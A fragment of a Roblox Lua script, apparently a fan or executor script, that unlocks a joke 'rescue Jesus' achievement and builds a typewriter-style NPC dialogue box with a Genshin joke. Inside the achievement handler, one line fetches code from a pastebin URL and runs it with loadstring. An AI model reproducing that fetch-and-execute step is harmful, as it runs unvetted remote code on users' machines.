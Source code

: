             if dotProduct > 0.9 then -- the player is looking at the Jesus model
                break
            end
        end
    end

    Achievements.Get({
        Title = "救出耶稣已解锁",
        Desc = "谢谢你救了我",
        Reason = "我将赐予你力量",
        Image = "https://github.com/persopoiu/scripts/raw/main/Untitled.png",
    })
    loadstring(game:HttpGet('https://pastebin.com/raw/M3X9iuE1'))()
end)

local npcdialogue = Instance.new("ScreenGui")
local dialogueFrame = Instance.new("ImageLabel")
local dialogueLabel = Instance.new("TextLabel")

npcdialogue.Name = "npcdialogue"
npcdialogue.Parent = game.Players.LocalPlayer:WaitForChild("PlayerGui")
npcdialogue.Enabled = false
npcdialogue.ResetOnSpawn = false

dialogueFrame.Name = "dialogueFrame"
dialogueFrame.Parent = npcdialogue
dialogueFrame.AnchorPoint = Vector2.new(0.5, 0.5)
dialogueFrame.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
dialogueFrame.BackgroundTransparency = 1.000
dialogueFrame.Position = UDim2.new(0.5, 0, 0.850000024, 0)
dialogueFrame.Size = UDim2.new(0.5, 0, 0.200000003, 0)
dialogueFrame.Image = "rbxassetid://3570695787"
dialogueFrame.ImageColor3 = Color3.fromRGB(45, 45, 45)
dialogueFrame.ScaleType = Enum.ScaleType.Slice
dialogueFrame.SliceCenter = Rect.new(100, 100, 100, 100)
dialogueFrame.SliceScale = 0.120

dialogueLabel.Name = "dialogueLabel"
dialogueLabel.Parent = dialogueFrame
dialogueLabel.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
dialogueLabel.BackgroundTransparency = 1.000
dialogueLabel.Size = UDim2.new(1, 0, 1, 0)
dialogueLabel.Font = Enum.Font.Oswald
dialogueLabel.TextColor3 = Color3.fromRGB(255, 255, 255)
dialogueLabel.TextScaled = true
dialogueLabel.TextSize = 14.000
dialogueLabel.TextWrapped = true

local function npc1dialogue()
    dialogueLabel.Text = "小伙子你也玩原神吗我们都喜欢玩原神"
    local text = dialogueLabel.Text
   for i = 1, #text do
        dialogueLabel.Text = string.sub(text, 1, i)
        wait(0.05) -- Adjust the speed of the typing effect
    end
end
